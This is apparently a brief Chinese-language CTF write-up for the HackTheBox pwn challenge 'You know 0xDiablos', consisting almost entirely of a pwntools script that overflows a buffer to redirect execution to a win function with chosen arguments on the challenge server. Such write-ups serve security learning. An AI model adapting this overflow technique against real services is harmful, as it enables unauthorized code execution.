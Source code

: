 ```yaml
---
layout: post
title: "hackbox pwn You know 0xDiablos wp"
date:   2022-3-10
tags: [ctf_wp]
comments: true
author: wsxk
---
```


太简单了以至于不想说乍做.....

    from pwn import *

    io = remote("167.172.60.97",31012)
    #io = process("./vuln")
    #80491E2
    io.recvuntil("You know who are 0xDiablos:")
    payload = b'a'*188 + p32(0x80491E2)+p32(0xDEADBEEF)+p32(0xDEADBEEF)+p32(0xC0DED00D)

    #gdb.attach(io)
    io.sendline(payload)

    io.interactive()